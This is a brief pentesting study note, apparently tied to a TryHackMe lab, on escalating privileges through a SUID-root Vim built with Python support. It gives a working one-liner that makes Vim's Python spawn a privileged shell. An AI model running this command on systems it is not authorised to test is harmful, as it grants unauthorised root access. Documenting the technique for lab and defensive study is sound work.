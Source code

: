 # Exploiting ViM

**author**:: Nathan Acks  
**date**:: 2021-11-04

If ViM is SUID root *and* is compiled with Python support, it can be used for privilege escalation.

```bash
vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

NOTE: Use `:py` instead if only Python 2 is available.

* [Basic Pentesting](tryhackme-basic-pentesting.md)
* [GTFOBins: vim](https://gtfobins.github.io/gtfobins/vim/)
